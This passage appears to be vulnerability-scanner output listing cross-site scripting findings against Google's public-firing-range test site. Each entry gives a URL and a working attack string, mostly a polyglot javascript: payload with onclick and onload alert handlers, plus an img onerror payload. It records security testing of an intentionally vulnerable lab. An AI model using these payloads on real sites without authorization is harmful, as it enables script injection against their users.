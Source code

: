   * Attack: `#javascript:alert(5397)`
  * Evidence: ``
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/address/location.hash/setTimeout%23jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert(5397&29%20&29//%250D%250A%250d%250a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert(5397&29//%3E%5Cx3e
  * Method: `GET`
  * Parameter: ``
  * Attack: `#jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(5397) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(5397)//>\x3e`
  * Evidence: ``
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/dom/dompropagation%23jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert(5397&29%20&29//%250D%250A%250d%250a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert(5397&29//%3E%5Cx3e
  * Method: `GET`
  * Parameter: ``
  * Attack: `#jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(5397) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(5397)//>\x3e`
  * Evidence: ``
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/dom/dompropagation/%23jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert(5397&29%20&29//%250D%250A%250d%250a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert(5397&29//%3E%5Cx3e
  * Method: `GET`
  * Parameter: ``
  * Attack: `#jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(5397) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(5397)//>\x3e`
  * Evidence: ``
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/dom/eventtriggering/document/formSubmission/innerHtml%3Fname=abc%23%3Cimg%20src=%22random.gif%22%20onerror=alert(5397&29%3E
  * Method: `GET`
  * Parameter: ``
  * Attack: `?name=abc#<img src="random.gif" onerror=alert(5397)>`
  * Evidence: ``
  * Other Info: `Tag name: input Att name:  Att id: `
* URL: https://public-firing-range.appspot.com/dom/eventtriggering/document/inputTyping/innerHtml%3Fname=abc%23%3Cimg%20src=%22random.gif%22%20onerror=alert(5397&29%3E
  * Method: `GET`
  * Parameter: ``
  * Attack: `?name=abc#<img src="random.gif" onerror=alert(5397)>`
  * Evidence: ``
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/parameter/form%23jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert(5397&29%20&29//%250D%250A%250d%250a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert(5397&29//%3E%5Cx3e
  * Method: `GET`
  * Parameter: ``
  * Attack: `#jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(5397) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(5397)//>\x3e`
  * Evidence: ``
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/remoteinclude/object_hash.html%23jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert(5397&29%20&29//%250D%250A%250d%250a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert(5397&29//%3E%5Cx3e
  * Method: `GET`
  * Parameter: ``
  * Attack: `#jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(5397) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(5397)//>\x3e`
  * Evidence: ``
  * Other Info: ``